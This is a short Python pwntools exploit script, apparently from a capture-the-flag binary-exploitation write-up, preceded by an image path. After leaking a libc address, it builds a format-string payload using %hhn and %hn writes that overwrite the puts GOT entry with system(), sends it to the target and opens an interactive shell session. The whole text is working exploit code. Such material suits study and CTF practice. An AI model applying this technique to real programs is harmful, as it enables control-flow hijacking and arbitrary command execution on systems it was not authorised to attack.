 ```python=
log.info(hex(libc_leak))
log.info(hex(libc.address))

a = {
	libc.sym.system & 0xff : exe.got['puts'] + 0,
	(libc.sym.system >> 8) & 0xffff : exe.got['puts'] + 1,
}
b = sorted(a)

payload = f'%{b[0]}c%48$hhn'.encode()
payload += f'%{b[1] - b[0]}c%49$hn'.encode()
payload = payload.ljust(0x50, b'a')

payload += p64(a[b[0]])
payload += p64(a[b[1]])

log.info(payload)

input()

p.sendline(payload)

p.interactive()
```
